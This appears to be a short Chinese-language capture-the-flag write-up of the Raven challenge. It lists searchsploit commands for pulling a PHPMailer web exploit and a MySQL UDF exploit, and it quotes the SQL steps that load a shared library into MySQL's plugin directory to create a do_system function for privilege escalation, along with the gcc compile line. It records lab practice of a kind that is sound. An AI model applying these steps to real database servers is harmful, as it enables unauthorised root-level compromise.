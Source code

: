 ```
searchsploit PHPMailer
searchsploit -m exploits/php/webapps/40974.py
http://192.168.2.134/vendor/class.phpmailer.php
```

现在有普通权限，web命令执行就算成功了也要提权啊。

---
[writeup](https://blog.techorganic.com/2018/11/08/raven-hacking-challenge/)

udf提权，以前做过udf提权，但时间仓促，没有深入理解。

## 如何安装UDF plugin
```
searchsploit mysql udf
searchsploit -m exploits/linux/local/1518.c
cat /root/1518.c
```
运行前查看代码是一个合格的渗透工程师应有的基本守则。

```
 * mysql> use mysql;
 * mysql> create table foo(line blob);
 * mysql> insert into foo values(load_file('/tmp/1518.so'));
 * mysql> select * from foo into dumpfile '/usr/lib/mysql/plugin/1518.so';
 * mysql> create function do_system returns integer soname '1518.so';
 * mysql> select * from mysql.func;
```
接下来，用do_system反弹一个bash shell。

![10](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/12-11/10.PNG)

## 总结

参考资料：wooyun——MySQL和PostgreSQL数据库安全配置

有问题的地方：gcc参数的编译
```
gcc -g -shared -W1,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```
gcc编译链接命令有点不熟悉。以前只用过最简单的-o，以后再学下。

吃饭吃饭~~
